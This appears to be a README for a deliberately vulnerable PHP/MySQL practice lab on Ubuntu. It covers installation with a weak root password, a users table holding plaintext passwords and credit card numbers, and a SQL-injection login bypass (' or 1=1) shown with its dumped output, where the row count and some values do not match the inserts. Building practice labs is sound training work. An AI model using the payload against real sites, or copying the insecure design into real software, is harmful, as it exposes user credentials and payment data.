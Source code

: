 # simplefiringrange

for Ubuntu 16

apt install apache2 mysql-server php php-mysqli php-gd libapache2-mod-php git

During this fun process, mysql should pop up a big purple screen asking for root password do your thang make that password hello123 do it!

apt-get install phpmyadmin php-mbstring php-gettext

vi config.inc.php and adjust the password

systemctl restart apache2

<site>/phpmyadmin
  
# got gui? 

click and make a database named brett

#click and make a table named users

users structure:

username: varchar 24

password: varchar 24

email: varchar 24

creditcard: varchar 24


then click insert and put some users in. don't forget to click go!

you get stuff like this going on:

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('miyuki', 'hello', 'm@m.com', '');

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('admin', 'password', 'admin@app.com', '4024007183948511');

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('brett', 'Hell123!', 'brett@app.com', '349256618723322');



now you should be able to browser and get stuff going

try this: enter ' or 1=1;## for the password

you want to get to this point:

sql: SELECT * FROM users WHERE username = 'brett' and password = '' or 1=1;-- '

Select returned 2 rows.

Email: admin@app.com,CreditCard: 4024007183948511,Password: password

Email: brett@app.com,CreditCard: 349256618723322,Password: Hello123! 

Email:m@m.com,CreditCard: 3533497685860304,Password: hello 







